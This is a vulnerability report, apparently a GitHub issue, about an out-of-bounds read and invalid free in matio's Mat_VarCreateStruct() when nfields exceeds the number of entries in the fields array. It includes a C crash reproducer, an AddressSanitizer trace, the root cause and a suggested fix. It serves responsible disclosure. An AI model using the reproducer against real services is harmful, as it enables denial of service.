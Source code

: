 A heap-based memory corruption can occur in Mat_VarCreateStruct() when the nfields value does not match the actual number of strings in the fields array. This leads to out-of-bounds reads and invalid memory frees during cleanup, potentially causing a segmentation fault or heap corruption.



**The function prototype is :**

```
Mat_VarCreateStruct(const char *name, int rank, const size_t *dims, const char **fields,
                    unsigned nfields)
```

This API assumes that fields is an array of nfields non-NULL strings. However, no validation is done to ensure that the fields array actually contains nfields valid pointers. If fewer than nfields pointers are provided, uninitialized memory may be accessed and freed later via Mat_VarFree(), resulting in undefined behavior.

Product: matio library Project URL: https://github.com/tbeu/matio

**Affected Versions**: 1.5.28 (development snapshot) master branch at commit de6590eef17a19fc64c362af34294fbc58d2bd07

**Reproducer :**

```
#include <stdlib.h>
#include "matio.h"

int main() {
    int rank = 2;
    size_t dims[2] = {0x100, 0x100};
    unsigned nfields = 0x10;
    const char *fields[1] = {"A"};  // only 1 field, but nfields is 16
    matvar_t *var = Mat_VarCreateStruct("evil", rank, dims, fields, nfields);
    if (!var) {
        printf("Mat_VarCreateStruct failed (maybe patched or OOM)\n");
        return 1;
    }

	Mat_VarFree(var);
	printf("Done\n");
	return 0;
}
```



**With AddressSanitizer :**

```
AddressSanitizer:DEADLYSIGNAL
==2309342==ERROR: AddressSanitizer: SEGV on unknown address (pc 0x00000041f594 bp 0x000000000000 sp 0x7ffd45b66b70 T0)
==2309342==The signal is caused by a READ memory access.
==2309342==Hint: this fault was caused by a dereference of a high value address (see register values below).  Dissassemble the provided pc to learn which register was used.
    #0 0x41f594 in __asan::Allocator::Deallocate(void*, unsigned long, unsigned long, __sanitizer::BufferedStackTrace*, __asan::AllocType) (/poc+0x41f594)
    #1 0x496841 in free (/poc+0x496841)
    #2 0x729bc620cdd8 in Mat_VarFree /home/zakka/Desktop/fuzzcampain/matio/src/mat.c:1848
    #3 0x729bc6219c9c in Mat_VarCreateStruct /home/zakka/Desktop/fuzzcampain/matio/src/matvar_struct.c:85
    #4 0x4c62a6 in main /poc.c:11:21
    #5 0x729bc5e29d8f in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58:16
    #6 0x729bc5e29e3f in __libc_start_main ../csu/libc-start.c:392:3
    #7 0x41e2f4 in _start (/poc+0x41e2f4)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV (/poc+0x41f594) in __asan::Allocator::Deallocate(void*, unsigned long, unsigned long, __sanitizer::BufferedStackTrace*, __asan::AllocType)
==2309342==ABORTING`
```



**Root Cause :**

in `matvar_struct.c`

```
83                  for ( i = 0; i < nfields; i++ ) {
84                      if ( NULL == fields[i] ) {
85                          Mat_VarFree(matvar);
```

Later in `Mat_VarFree`, the loop attempts to `free(fieldnames[i])` even if it's corrupted.



**Impact:**

- At minimum, this is a denial of service.
- In certain environments, it may lead to heap corruption.
- If `matio` is embedded in services accepting user-supplied `.mat` files or struct construction based on user input, this may be triggered remotely.



**Recommendation:**

Add validation to ensure `fields` is either NULL (with `nfields == 0`) or contains exactly `nfields` non-NULL pointers.




